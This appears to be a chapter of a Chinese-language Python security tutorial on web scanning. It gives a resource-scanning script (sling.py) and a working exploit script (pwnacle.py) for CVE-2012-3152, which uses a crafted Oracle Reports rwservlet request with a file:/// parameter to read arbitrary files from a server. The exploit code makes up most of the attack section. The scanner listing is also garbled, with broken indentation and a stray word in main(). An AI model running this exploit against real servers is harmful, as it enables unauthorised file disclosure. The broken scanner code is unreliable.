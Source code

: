 ## Web扫描和利用

本章将会介绍如何使用python去构建一个简单的web扫描器，并且写一个简单的exp。有些时候如果组织会发布出来一些漏洞测试的POC，然后使用者可以使用这些poc去检查自己系统的漏洞，但是在这种情况下，如果是等poc发布出来早以为时已晚!

在[第5章](https://github.com/smartFlash/pySecurity/blob/master/zh-cn/0x5.md)的时候告诉了大家基本的web请求,这一章我们讲两个新的内容:

* 检测特定的服务器列表.
* 利用一个Oracle的本地包含漏洞.

**Web扫描**

下面的这个脚本使用"-i"参数把文件的url连接传递到脚本里面，然后使用"-r"参数指定请求的路径,最好使用"-s"参数去指定检测是否含有CLI漏洞的字符串.

```
$ python sling.py -h
Usage: sling.py -i <file_with URLs> -r  -s [optional]
 
Options:
  -h, --help    show this help message and exit
  -i SERVERS    specify target file with URLs
  -r RESOURCES  specify a file with resources to request
  -s SEARCH     [optional] Specify a search string -s
```

存储url链接列表文件的文本格式应该是这样的——"http://www.google.com" 一行，并且文件请求的路径应该是"request/"每行,例如:
```
reqs:
CFIDE/
admin/
tmp/
```

下面是一个脚本调用的例子但是没有指定检测字符串:

```
$ python sling.py -i URLs -r reqs
[+] URL: http://www.google.com/CFIDE/ [404]
[+] URL: http://www.google.com/admin/ [404]
[+] URL: http://www.google.com/tmp/ [404]
[+] URL: http://www.yahoo.com/CFIDE/ [404]
[+] URL: http://www.facebook.com/CFIDE/ [404]
[+] URL: http://www.facebook.com/admin/ [404]
[+] URL: http://www.facebook.com/tmp/ [404]
```

现在当创建这些请求的时候，你可能想定义一个检测语句以减少误报，例如：你现在请求的路径是"/CFIDE/administrator/enter.cfm",你可以指定检测"CFIDE"的".cfm"页面是否有问题,这样就帮助你减少很多不必要耗费的时间.下面这个例子演示了上面脚本的完整示例:
```
$ python sling.py -i URLs -r reqs -s google
[+] URL: http://www.google.com/CFIDE/ [404] Found: 'google' in ouput
[+] URL: http://www.google.com/admin/ [404] Found: 'google' in ouput
[+] URL: http://www.google.com/tmp/ [404] Found: 'google' in ouput
```

正如你所看到的，这个脚本只会检测带有'google'关键字的url链接并且通过"STDOUT"显示在屏幕上面,这是一个很简单的脚本能够帮你快速的检索一些web资源,更进一步,我们可以指定服务器的版本号和漏洞版本,完整的脚本在教程的最后面:

**自动web攻击应用**

在几个月以前,一个安全研究员[NI@root](http://blog.netinfiltration.com/2013/12/12/hacking-oracle-reports-11g/)　发表过一篇详细的Oracle本地包含漏洞的报告,在报告发布的同时还发布了一个POC检测工具,用来检测你的服务器是否有bug,除此以外就没有任何工具了,该漏洞允许你通过发起以下请求连接来访问服务器的其他文件或目录,使用"file:///".

```
request = '/reports/rwservlet?report=test.rdf+desformat=html+destype=cache+JOBTYPE=rwurl+URLPARAMETER="file:///'
```
下面是调用这个脚本的语法:

```
$ python pwnacle.py <server> <resource>
```

pwnacle.py:

```
#######################################
# pwnacle.py - Exploits CVE-2012-3152 #
# Oracle Local File Inclusion (LFI)   #
#######################################
 
import urllib, sys, ssl, inspect
exec inspect.getsource(ssl.wrap_socket).replace("PROTOCOL_SSLv23","PROTOCOL_SSLv3") in dict(inspect.getmembers(ssl.wrap_socket))["func_globals"]
import socket
 
server = sys.argv[1]      # Assigns first argument given at the CLI to 'server' variable
dir = sys.argv[2]         # Assigns second argument given at the CLI to 'dir' variable
ip = server.split('/')[2] # formats the server by splitting the string based on the '/' which grabs the IP out of 'http://ip/'
req = '/reports/rwservlet?report=test.rdf+desformat=html+destype=cache+JOBTYPE=rwurl+URLPARAMETER="file:///' #request format to exploit the vulnerability
 
print "Sending Request: "+server+req+dir+'"'
 
if 'http://' in server: # 使用 http的urllib模块  --如果是ssl协议就出抛出错误
        try:
                conn = urllib.urlopen(server+req+dir+'"') # 发送请求给服务器
                out = conn.readlines()
                for item in conn:
                        print item.strip()
        except Exception as e:
                print e
 
if 'https://' in server:  # Create web request with ssl module
        try:
                conn = ssl.wrap_socket(socket.create_connection((ip, 443)))
                request = 'GET '+req+dir+'"'+' HTTP/1.1'+'\n'
                request += 'Host: '+ip+'\n'
                request += 'User-Agent: Mozilla/5.0 '+'\n'
                request += 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'+'\n'
                request += 'Accept-Language: en-US,en;q=0.5'+'\n'
                request += 'Accept-Encoding: gzip, deflate'+'\n'
                request += 'Connection: keep-alive'+'\n'
                conn.send(request+'\n')
                print conn.recv()
                print conn.recv(20098)
 
        except Exception as e:
                print e
```

Sling.py:

```
#####################################
# sling.py - checks for resources   #
# Can seach for string in response  #
#####################################
 
from bs4 import BeautifulSoup
import sys, optparse, socket
from urllib import urlopen
 
class Colors:
        RED = '\033[91m'
        GREEN = '\033[92m'
 
def webreq(server, resources):                              # 主机地址,请求路径
        try:
                resource = []
                for item in open(resources, 'r'):           #对请求资源路径循环
                        resource.append(item.strip())            # 把文件内的链接添加到数组里面
                for item in resource:                       #循环数组并且创建请求
                        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        s.settimeout(5)                     # 设置连接超时时间
                        url = server.strip()+item.strip()        # 格式化请求url链接: "http://www.site.com/CFIDE/administrator/enter.cfm"
                        request = urlopen(url)                   # 创建请求
                        if search:                     # 如果变量 "search"为true (-s)
                                parsed = BeautifulSoup(request.read(), "lxml")  #使用BeautifulSoup解析
                                if search in str(parsed):             # 如果search存在就输出
                                        print Colors.GREEN+"[+] URL: "+url+" ["+str(request.getcode())+"] Found: '"+search+"' in ouput"
                        elif request.getcode() == 404:                # 获取http状态码
                                print Colors.RED+"[+] URL: "+url+" ["+str(request.getcode())+"]"    # 打印url的状态码
               elif request.getcode():
                    print Colors.GREEN+"[+] URL: "+url+" ["+str(request.getcode())+"]"
 
        except:pass
 
def main():
# 创建一个 CLI功能函数并且存储到变量里面
parser = optparse.OptionParser(sys.argv[0]+' '+ \
        '-i <file_with URLs> -r  -s [optional]')
        parser.add_option('-i', dest='servers', type='string', help='specify target file with URLs')
        parser.add_option('-r', dest='resources', type='string', help='specify a file with resources to request')
        parser.add_option('-s', dest='search', type='string', help='[optional] Specify a search string -s ')
        (options, args) = parser.parse_args()
        servers=options.servers
        resources=options.resources
        global search; search=options.search
 
        if (servers == None) and (resources==None):              # 检查 CLI是否有效
                print parser.usage                     # if not print usage
                sys.exit(0)
 
        if servers:
                for server in open(servers, 'r'):           # 循环文件里面的url连接
                        webreq(server, resources)           # 调用 webreq 函数
                        function
 
if __name__ == "__main__":
      main()
      
```
